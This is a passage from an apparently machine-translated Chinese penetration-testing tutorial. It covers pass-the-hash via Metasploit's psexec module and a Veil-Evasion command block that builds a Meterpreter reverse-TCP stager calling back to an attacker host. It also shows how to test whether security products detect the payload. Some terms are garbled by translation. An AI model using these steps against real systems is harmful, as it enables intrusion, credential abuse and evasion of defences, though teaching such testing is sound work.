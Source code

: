 因此，我们将模块配置为使用密码`batman`，并针对系统上的本地管理员帐户。这可以更改，但通常使用默认值。由于是本地管理员，所以域设置为`WORKGROUP`。下图显示了模块的配置：

![Testing for the synchronization of account credentials](graphics/B04315_05_22.jpg)

### 注

在运行这些命令之前，请确保使用 spool 将结果输出到日志文件，以便您可以返回并查看结果。

正如您在下图中所看到的，该账户提供了登录系统的详细信息。这意味着有与返回的帐户名相关的已登录用户，并且本地管理员帐户将在该系统上工作。这意味着通过**通过散列攻击**（**PtH**，该系统已经成熟，可以进行妥协。

![Testing for the synchronization of account credentials](graphics/B04315_05_23.jpg)

### 注

`psexec`模块允许您通过提取的**局域网管理器（LM）**：**新技术 LM（NTLM）**散列和用户名组合，或者仅通过用户名密码对进行访问。

首先，我们设置了一个自定义的 multi/handler 来捕获我们在下面的示例中由 Veil 生成的自定义漏洞。请记住，我使用`443`作为本地端口，因为它绕过了大多数 HIPS，并且本地主机将根据您的主机而改变。

![Testing for the synchronization of account credentials](graphics/B04315_05_24.jpg)

现在，我们需要使用 Veil 生成自定义有效载荷，以便与`psexec`模块一起使用。您可以导航到`Veil-Evasion`安装目录并使用`python Veil-Evasion.py`运行它。Veil 有大量有效载荷，可以通过各种模糊或保护机制生成，以查看您想要使用的特定有效载荷，并执行`list`命令。您可以通过键入有效负载的编号或名称来选择有效负载。例如，运行以下命令以生成不使用 shell 代码的 C Sharp stager，请记住，这需要在目标框上使用特定版本的.NET。

```
use cs/meterpreter/rev_tcp
set LPORT 443
set LHOST 192.168.195.160
set use_arya Y
generate

```

### 注

一个典型的有效载荷有两个组成部分，阶段器和阶段。stager 在攻击者和受害者之间建立网络连接。通常使用本机系统语言的有效负载可能会更为缓慢。第二部分是 stage，它是 stager 下载的组件。这些可以包括你的计量器之类的东西。如果两个项目合并，则称为单个项目；想想看，当你创建恶意的**通用串行总线**（**USB**驱动器时，这些驱动器通常是单驱动器。

输出将是一个可执行文件，它将生成一个加密的反向**超文本传输协议安全（HTTPS**MeterMeter）。

![Testing for the synchronization of account credentials](graphics/B04315_05_25.jpg)

可使用脚本`checkvt`测试有效载荷，该脚本可安全验证大多数 HIPS 解决方案是否会拾取有效载荷。它这样做时没有将其上传到 Virus Total，反过来也不会将有效负载添加到数据库中，而许多 HIPS 提供商都从数据库中获取有效负载。相反，它将有效负载的哈希值与数据库中已有的哈希值进行比较。

![Testing for the synchronization of account credentials](graphics/B04315_05_26.jpg)

现在，我们可以设置模块`psexec`以引用自定义负载执行。

![Testing for the synchronization of account credentials](graphics/B04315_05_27.jpg)

更新`psexec`模块，通过设置`EXE::Custom`使用`Veil-Evasion`生成的自定义有效载荷，并通过设置`DisablePayloadHandler true`禁用自动有效载荷处理程序，如下图：
